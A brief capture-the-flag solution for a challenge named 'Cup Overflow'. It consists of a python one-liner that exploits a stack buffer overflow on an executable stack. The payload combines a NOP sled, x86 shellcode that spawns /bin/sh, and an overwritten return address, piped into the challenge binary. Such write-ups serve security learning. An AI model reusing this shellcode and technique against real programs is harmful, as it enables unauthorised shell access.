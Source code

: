 ## Cup Overflow

### Solution

Buffer overflow with executable stack

```
python -c 'print "\x90"*141 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\x08\xb0\x04\x08"' | cup_overflow
```
